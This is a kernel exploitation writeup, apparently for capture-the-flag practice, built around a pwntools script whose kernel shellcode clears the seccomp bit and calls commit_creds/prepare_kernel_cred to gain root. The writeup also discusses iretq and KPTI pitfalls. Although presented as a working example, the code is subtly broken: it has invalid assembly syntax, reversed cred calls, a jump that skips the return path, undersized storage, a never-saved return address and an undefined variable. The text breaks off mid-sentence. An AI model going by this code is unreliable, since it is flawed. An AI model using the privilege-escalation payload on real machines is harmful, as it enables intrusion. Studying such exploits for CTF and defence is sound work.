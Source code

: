 # 🐚 Kernel Pwn: Jumping from Userland to Kernel and Back

In kernel exploitation challenges, you often need to **jump from userland to kernel space**, perform privileged actions, and then **safely return** to userland. This writeup provides a working example and some hard-earned lessons.

---

## 🧠 The Idea

You must **save userland state** (registers like `cs`, `ss`, `rsp`, `rflags`, and `rip`) before transitioning into kernel space. Then, in kernel space, elevate privileges, and finally **restore the saved context** to safely return via `iretq`.

If you skip this — like I initially did — you'll get a lovely `SIGSEGV` from `iretq`.

---

## 🔧 Code Snippet

### Python Exploit (Pwntools)

```python
from pwn import *
import os

context.arch = 'amd64'

# Target binary
path = 'some_binary'
p = process(path)

payload = asm(f"""
    ; Save userland segment and context values
    lea r15 , [rip+user_ss]
    mov rax, ss
    mov [r15], rax

    lea r15, [rip+user_sp]
    mov rax, rsp
    mov [r15], rax

    lea r15, [rip+user_rflags]
    pushfq
    pop rax
    mov [r15], rax

    lea r15, [rip+user_cs]
    mov rax, cs
    mov [r15], rax

    ; Write shellcode into opened FD (3)
    mov rdi, 3
    lea rsi, [rip + shellcode]
    mov rdx, 150
    mov rax, 1
    syscall

    ; Trigger syscall to run shellcode in kernel
    push 0x66
    mov rdi, rsp
    push 4
    pop rsi
    push 90
    pop rax
    syscall

    ret

shellcode:
    ; Disable seccomp by flipping bit at current_task->seccomp
    mov rax, qword ptr gs:0x15d00
    and qword ptr [rax], 0xfffffffffffffeff

    ; Typical get-root pattern
    mov rax, commit_cred()
    xor rdi, rdi
    call rax
    mov rdi, rax
    mov rax, prepare_kernel_cred()
    jmp rax

    ; Return to userland
    swapgs
    xor r15, r15
    mov r15, [rip + user_ss]
    push r15
    xor r15, r15
    mov r15, [rip + user_sp]
    push r15
    xor r15, r15
    mov r15, [rip + user_rflags]
    push r15
    xor r15, r15
    mov r15, [rip + user_cs]
    push r15
    mov r15, [rip + user_rip]
    push r15
    iretq

user_cs:
    .byte  0x00
user_ss:
    .byte  0x00
user_sp:
    .quad  0x00
user_rflags:
    .word  0x0000
user_rip:
    .qword return_address

binsh:
    .string "/flag"
""")

# Write shellcode to file (unrelated to main exploit flow)
with open('file2', 'wb') as f:
    f.write(shellcode)

# Send the payload
p.sendline(payload)
os.system('cat /flag')
```

---

## 🧪 Debugging

When debugging with GDB, check `gs`-based offsets:

```gdb
(gdb) p/x &current_task
$21 = 0x0 gs:offset
```

This confirms where `gs:0x15d00` points (it should point to `current_task->seccomp`, which you clear with `and [rax], ~0x100`).

---

## ⚠️ Watch Out: `iretq` and KPTI

I lost hours figuring out why I kept segfaulting on `iretq`...

Turns out: **`iretq` needs 5 things on the stack** (in this order):

1. `ss`  
2. `rsp`  
3. `rflags`  
4. `cs`  
5. `rip`

If you miss one, or the values are garbage — say hello to `SIGSEGV`.

Also:  
If you're running on a Linux kernel ≥ 4.15, KPTI (Kernel Page Table Isolation) a.k.a. **KAISER**, will cause `iretq` to fail unless you're handling the page table switch correctly.

---

## 🩹 Workaround: Use a Signal Handler

Thanks to [@ntrung03](https://github.com/TrungNguyen1909) for this trick:  
Use a **signal handler** to handle return to userland cleanly.

Writeup:  
🔗 https://github.com/TrungNguyen1909/writeups/blob/master/matesctf/KSMASH/exploit.c  
Blog:  
📝 https://trungnguyen1909.github.io/blog/post/matesctf/KSMASH/

> Highly recommend reading his KSMASH writeup — very insightful.

🔗 [https://slavaim.blogspot.com/2017/09/linux-kernel-debugging-with-gdb-getting.html](https://slavaim.blogspot.com/2017/09/linux-kernel-debugging-with-gdb-getting.html)
---

## ✅ TL;DR

- Save userland state (`cs`, `ss`, `rsp`, `rflags`, `rip`)
- Use `iretq` properly with
